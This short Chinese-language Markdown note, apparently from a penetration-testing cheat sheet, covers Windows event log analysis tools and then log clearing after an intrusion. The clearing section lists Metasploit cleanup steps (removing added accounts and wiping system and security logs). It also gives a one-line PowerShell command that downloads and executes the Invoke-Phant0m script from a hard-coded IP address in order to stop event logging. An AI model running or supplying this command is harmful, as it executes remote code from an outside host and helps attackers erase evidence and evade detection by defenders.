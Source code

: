 ## Windows 日志分析和清理

事件查看器

### 日志分析工具
#### Log Parser
微软官方

查询登录成功的记录
查询登录失败的事件

#### Event Log Explorer
强大的过滤能力

### 日志清除

MSF清理日志
- 删除所有工具
- 删除之前添加的账号
- 删除应用程序, 系统和安全模块日志
- 关闭所有msf链接
- 清除所有事件日志

停止日志记录: invoke-phant0m
`powershell "IEX(new-object system.net.webclient).downloadstring('http://47.101.214.85:8000/Invoke-Phant0m.ps1');Invoke-Phant0m"`

EventLogMaster